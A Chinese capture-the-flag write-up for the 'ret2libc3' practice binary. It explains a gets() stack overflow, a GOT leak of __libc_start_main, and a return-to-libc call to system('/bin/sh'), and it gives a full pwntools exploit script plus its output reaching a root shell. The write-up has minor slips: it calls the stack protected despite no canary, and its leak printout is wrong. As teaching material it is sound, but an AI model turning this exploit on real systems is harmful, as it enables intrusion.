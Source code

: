 # ret2libc3

## 保护等级

首先检查保护等级：

```bash
$ checksec ret2libc3
[*] '/mnt/d/program/ctf/ctf-wiki/ret2libc3/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看到这是一个开启了部分只读和栈溢出保护的程序。

## 程序逻辑

在 `Ida Pro` 中打开即可看到 `main` 函数的伪代码：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-64h]

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets(&s);
  return 0;
}
```

可见这是一个相当明显的栈溢出。`0x64` 个字节就能覆盖到原 `EBP`、`0x68` 就能覆盖到返回地址。

## 利用

查找字符串和 `system` 函数之后发现都没找到。那么我们如何得到 system 函数的地址呢？

* `system` 函数属于 `libc`，而 `libc.so` 动态链接库中的函数之间相对偏移是固定的。
* 所以如果我们知道 `libc` 中某个函数的地址，那么我们就可以确定该程序利用的 `libc`。进而我们就可以知道 `system` 函数的地址。

那么如何得到 `libc` 中的某个函数的地址呢？

* 我们一般常用的方法是采用 got 表泄露，即输出某个函数对应的 got 表项的内容。
* 当然，由于 `libc` 的延迟绑定机制，我们需要泄漏已经执行过的函数的地址，通常选取的函数是 `__libc_start_main`，这是因为它是程序最初被执行的地方。

_PostScript_: 关于 `PLT` 表与 `GOT` 表的关系可以参考 [LIEF](https://lief.quarkslab.com/doc/stable/tutorials/05\_elf_infect_plt_got.html%3E)

### `leak_libc_main`

我们将控制 `main` 函数溢出后，其栈帧形成下面的形式：

```
                   +----------------+                                   
                   |                |                                   
              0x64 | local variable |-----> 'A'*0x64                    
                   |                |                                   
                   +----------------+                                   
               0x4 | previous $ebp  |-----> 'A'* 0x4                    
                   +----------------+                                   
               0x4 | return address |-----> "puts" address              
                   +----------------+                                   
                                    ------> "main" address              

                                    ------> .got.plt:"__start_libc_main"
```

实际上执行的是这样一个函数 `puts("__start_libc_main")`。

### `get_shell`

因为上面的的栈帧控制，我们可以再执行一次 `main` 函数，经过之前的泄露我们可以得到 `libc` 的加载基地址，因此可以得到 `system` 的地址，从而可以执行系统调用拿到 `shell`：

```
                   +----------------+                        
                   |                |                        
              0x64 | local variable ------> 'A'*0x64         
                   |                |                        
                   +----------------+                        
               0x4 | previous $ebp  ------> 'A'* 0x4         
                   +----------------+                        
               0x4 | return address ------> "system" address 
                   +----------------+                        
                                    ------> 'A'* 0x4         

                                    ------> "/bin/sh" address
```

实际上执行的是这样一个函数 `system("/bin/sh")`。

### 脚本

```python
#!/usr/bin/env python2
# coding=utf-8
from pwn import *


class Challenge:
    libc_main_addr = 0x1AA50
    libc_system_addr = 0x3E9E0
    libc_binsh_addr = 0x17EAAA

    def __init__(self):
        self.p = process(["./ret2libc3"])
        self.elf = ELF("./ret2libc3")

    def leak_libc_main(self):
        puts_addr = self.elf.plt["puts"]
        libc_main_addr = self.elf.got["__libc_start_main"]
        main_symbol = self.elf.symbols["main"]
        # todo 我也不知道为什么是 0x70 的偏移，按反汇编结果应该是 0x68 才对。栈结构：
        #       _puts 地址(第一次 main 返回地址)==>_puts 返回地址(第二次 main 地址)==>_puts 参数(got["libc_main"])
        payload = flat(['A' * (0x6c + 0x4), puts_addr, main_symbol, libc_main_addr])
        self.p.recvuntil("Can you find it !?")
        self.p.sendline(payload)
        self.leak_main_addr = u32(self.p.recv()[:4])
        print("__libc_start_main: %s" % hex(self.libc_main_addr))

    def get_libc_offset(self):
        self.libc_base = self.leak_main_addr - self.libc_main_addr
        print("libc offset: %s" % hex(self.libc_base))

    def get_shell(self):
        system_addr = self.libc_base + self.libc_system_addr
        bin_sh_addr = self.libc_base + self.libc_binsh_addr
        payload = flat(["A" * (0x64 + 0x4), system_addr, "A" * 0x4, bin_sh_addr])
        self.p.sendline(payload)
        self.p.interactive()

    def pwn(self):
        self.leak_libc_main()
        self.get_libc_offset()
        self.get_shell()
        self.p.wait_for_close()


if __name__ == "__main__":
    c = Challenge()
    c.pwn()
```

执行结果：

```bash
$ python exp.py 
[+] Starting local process './ret2libc3': pid 6456
[*] '/tmp/pycharm_project_477/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
__libc_start_main: 0x1aa50
libc offset: 0xf7d55000
[*] Switching to interactive mode
$ whoami
root
```
